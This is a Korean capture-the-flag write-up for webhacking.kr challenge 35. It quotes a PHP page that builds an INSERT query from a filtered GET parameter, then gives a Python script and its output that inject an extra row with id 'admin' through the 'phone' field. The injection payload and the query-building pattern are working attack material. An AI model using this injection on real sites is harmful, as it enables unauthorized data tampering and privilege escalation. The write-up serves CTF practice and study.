

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

***


# **Description**




# **Write-Up**

view-source를 클릭하면 GET method로 phone과 id를 입력할 수 있고, id가 5글자 초과이면 안되니 query를 넣을 곳은 phone밖에 없어보인다.

```php
... 생략 ...
if($_GET['phone'] && $_GET['id']){
  if(preg_match("/\*|\/|=|select|-|#|;/i",$_GET['phone'])) exit("no hack");
  if(strlen($_GET['id']) > 5) exit("no hack");
  if(preg_match("/admin/i",$_GET['id'])) exit("you are not admin");
  mysqli_query($db,"insert into chall35(id,ip,phone) values('{$_GET['id']}','{$_SERVER['REMOTE_ADDR']}',{$_GET['phone']})") or die("query error");
  echo "Done<br>";
}

$isAdmin = mysqli_fetch_array(mysqli_query($db,"select ip from chall35 where id='admin' and ip='{$_SERVER['REMOTE_ADDR']}'"));
if($isAdmin['ip'] == $_SERVER['REMOTE_ADDR']){
  solve(35);
  mysqli_query($db,"delete from chall35");
}
... 생략 ...
```

ip는 자신의 공인 IP로 넣고, 괄호가 필터링이 아니기 때문에 쉽게 id가 admin인 데이터를 insert할 수 있다.

```python
import urllib.request

id          = 'a'
phone       = urllib.parse.quote('123), ("admin", "1.220.188.91", 123')

CHALLENGE   = 'https://webhacking.kr/challenge/web-17/'
SESSID      = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+ SESSID}

url         = CHALLENGE + '?id='+id+'&phone='+phone
request     = urllib.request.Request(url=url, headers=headers)
response    = urllib.request.urlopen(request)
result      = response.read().decode()
print(result)

[Output]
<html>
<head>
<title>Challenge 35</title>
<head>
<body>
<form method=get action=index.php>
phone : <input name=phone size=11 style=width:200px>
<input name=id type=hidden value=guest>
<input type=submit value='add'>
</form>
Done<br><script>alert('already solved');</script><!--
-->
<br><a href=?view_source=1>view-source</a>
</body>
</html>
```